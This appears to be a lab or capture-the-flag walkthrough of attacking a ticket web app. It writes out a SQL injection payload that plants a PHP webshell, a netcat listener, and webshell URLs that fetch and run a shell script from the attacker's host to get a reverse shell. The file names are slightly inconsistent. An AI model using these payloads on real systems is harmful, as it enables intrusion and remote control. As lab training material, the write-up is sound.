Seems to be a ticket service.

Registering and creating a new user and logging in as `issue_user : ManagementInsideOld797`



Now checking the parameter in the code:

It is vulnerable for SQL injection

We can head to that url:


Interrupting the page in burpsuite:

We can change add the priority parameter:

We have a 400 bad request error.

But trying with POST request:

It's successful.

Now we can write the webshell to the path discovered from port [[30455]]
```
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/webshell.php' -- -
```


Now navigating to http://192.168.155.147:30455/webshell.php?cmd=id


To get a reverse shell:

Start a python server:
```
python3 -m http.server 30455
```
Setup a listener:
```
sudo rlwrap nc -nlvp 443
```
Then:
```
http://192.168.155.147:30455/shell.php?cmd=wget http://192.168.45.182/shell.sh
```
```
http://192.168.155.147:30455/shell.php?cmd=bash%20shell.sh
```
We get a shell:
